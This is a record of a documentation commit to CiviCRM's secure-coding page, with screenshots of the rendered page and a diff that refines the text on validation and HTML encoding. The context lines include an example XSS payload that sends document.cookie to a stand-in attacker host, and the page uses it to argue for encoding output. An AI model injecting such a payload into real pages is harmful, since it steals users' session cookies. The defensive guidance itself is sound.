

Before and after one commit to civicrm/civicrm-dev-docs, an MkDocs documentation site: the page built from docs/standards/secure.md, in a window 1280 px wide and 1400 px high, scrolled down 1847 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; old or Windows-style settings are respelled for this version of MkDocs.

Commit message:
Security - Small tweaks for validation, encoding

```diff
--- a/docs/standards/secure.md
+++ b/docs/standards/secure.md
@@ -63,7 +63,11 @@
 
 ### Validation
 
-The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format. This works well for data inputs which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.
+The most primitive way to sanitize untrusted data (as in the example above) is to throw an error when it does not conform to the expected format.
+
+Validation works well for data *inputs* which are of known (and simple) types, but can be much more difficult (and less effective) when used for *outputs* or complex data types.
+
+Validation can also be used for *outputs*. For example, when sending data to MySQL in a query, it's good practice to validate that integers are actually integers.
 
 ### Encoding (aka "escaping") {:#encoding}
 
@@ -77,9 +81,9 @@
 
 This works fine with an input of `foo@example.org`. But a string like `<script>window.location='http://attacker.example.com/?cookie='+document.cookie</script>` would present an [XSS](https://excess-xss.com/) vulnerability. If loaded in a victim's browser, this string would send the victim's cookies to the attacker's website and allow the attacker to masquerade as the user.
 
-Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `Foo Bar <foo@example.org>`.
+Using validation to reject email addresses characters like `<` or `>` would prevent the attack, but it would also prevent us from displaying email addresses like `"Foo Bar" <foo@example.org>`.
 
-By *encoding* the data (for HTML), we change `Foo Bar <foo@example.org>` to `Foo Bar &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.
+By *encoding* the data for HTML (e.g. by using [htmlentities()](http://php.net/manual/en/function.htmlentities.php)), we change `"Foo Bar" <foo@example.org>` to `&quot;Foo Bar&quot; &lt;foo@example.org&gt;`. This prevents the attack and allows us to display any characters we wish.
 
 !!! important
     Encoding is specific to output mechanisms. Data embedded within HTML must be encoded differently from data embedded in an SQL query or a shell command.
```
